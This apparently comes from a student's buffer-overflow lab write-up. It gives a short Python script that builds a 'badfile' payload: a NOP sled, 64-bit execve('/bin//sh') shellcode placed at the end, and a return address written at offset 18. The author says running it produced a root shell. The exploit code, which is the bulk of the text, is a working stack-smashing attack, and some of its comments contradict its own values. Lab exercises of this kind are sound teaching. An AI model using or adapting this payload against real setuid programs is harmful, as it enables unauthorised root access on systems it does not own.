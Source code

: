 offset is `10+8 = 18` for 64 bit.


```python
#!/usr/bin/python3
import sys

shellcode = (
 "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
).encode('latin-1')


# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode) # Change this number
content[start:start + len(shellcode)] = shellcode # adding shellcode at end of badfile

# Decide the return address value
# and put it somewhere in the payload
ret    = 0x7fffffffdd46 + 1400       #I need to jump high enough to go inside NOP. Beginning of buffer + 300
offset = 18 #(208 as diff and add 8 bytes since its 64 bit achine)              # Change this number

L = 8     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

To gain root access, I was trying to jump from  buffer as high as possible to get into root shell and it succeeded. 

![](attachment/8077ff4b1a4fc9b820ba316c605106fd.png)

---